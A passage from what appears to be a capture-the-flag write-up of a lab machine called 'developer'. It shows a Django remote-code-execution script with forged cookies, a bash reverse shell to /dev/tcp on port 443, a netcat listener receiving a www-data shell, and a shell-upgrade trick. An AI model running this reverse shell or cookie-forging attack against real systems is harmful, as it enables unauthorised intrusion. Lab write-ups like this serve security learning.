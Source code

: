 For example, with `tcpdump` listening, I can ping myself:

```

oxdf@parrot$ python2 django-rce.py 'ping -c 1 10.10.14.6'
Forged cookie:
.eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-kRwAQVKUotLkvPzszNTkwvyizMruIori0tSc7kKmUJFCjLz0hV0kxUMFQwN9EDIRM-skLk1qJAllDc-sbQkI760OLUoPjPFmzVUCEkgKTE5OzUvJVQJYr1eaUlmTrEeSF7PNTcxM8cRyHKCqCnVAwDdijyO:1m47EC:va8S4KQZMhdYvXCdcgRVBkjPoIQ

```

And see it at `tcpdump`:

```

oxdf@parrot$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:41:00.834421 IP developer.htb > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
15:41:00.834453 IP 10.10.14.6 > developer.htb: ICMP echo reply, id 2, seq 1, length 64

```

#### Shell

Running this with a reverse shell payload returned a shell:

```

oxdf@parrot$ python2 django-rce.py 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
Forged cookie:
.eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-kRwAQVKUotLkvPzszNTkwvyizMruIori0tSc7kKmUINkxKLMxR0kxWUIIxMBTs1Bf2U1DL9kuQCfUMDPRAy0TPTNzExVjCwUzNUKmRuDSpkCeWNTywtyYgvLU4tis9M8WYNFUISSEpMzk7NSwlVgrhNr7QkM6dYDySv55qbmJnjCGQ5QdSU6gEAY4JESA:1m478z:q3TGSOBo-rDA954yJoX08RfEI9g

```

At a listening `nc`:

```

oxdf@parrot$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.120] 40458
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@developer:/var/sentry$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’ll upgrade the shell with the standard trick:

```

www-data@developer:/var/sentry$ python -c 'import pty;pty.spawn("bash")'
python -c 'import pty;pty.spawn("bash")'
www-data@developer:/var/sentry$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@parrot$ stty raw -echo ; fg
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@developer:/var/sentry$ 

```
